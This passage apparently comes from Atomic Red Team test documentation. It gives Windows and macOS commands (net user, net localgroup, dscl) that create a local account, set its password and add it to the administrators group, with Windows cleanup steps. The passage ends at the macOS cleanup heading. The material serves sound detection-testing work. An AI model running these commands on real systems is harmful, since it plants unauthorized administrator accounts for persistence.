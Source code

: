 After execution the new account will be active and added to the Administrators group

**Supported Platforms:** Windows

**auto_generated_guid:** a524ce99-86de-4db6-b4f9-e08f35a47a15

#### Inputs:

| Name     | Description                | Type   | Default Value   |
| -------- | -------------------------- | ------ | --------------- |
| password | Password for art-test user | string | -4RTisCool!-321 |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
net user art-test /add
net user art-test #{password}
net localgroup administrators art-test /add
```

#### Cleanup Commands:

```cmd
net localgroup administrators art-test /delete >nul 2>&1
net user art-test /delete >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Create local account with admin privileges - MacOS

After execution the new account will be active and added to the Administrators group

**Supported Platforms:** macOS

**auto_generated_guid:** f1275566-1c26-4b66-83e3-7f9f7f964daa

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
dscl . -create /Users/AtomicUser
dscl . -create /Users/AtomicUser UserShell /bin/bash
dscl . -create /Users/AtomicUser RealName "Atomic User"
dscl . -create /Users/AtomicUser UniqueID 503
dscl . -create /Users/AtomicUser PrimaryGroupID 503
dscl . -create /Users/AtomicUser NFSHomeDirectory /Local/Users/AtomicUser
dscl . -passwd /Users/AtomicUser mySecretPassword
dscl . -append /Groups/admin GroupMembership AtomicUser
```

#### Cleanup Commands:

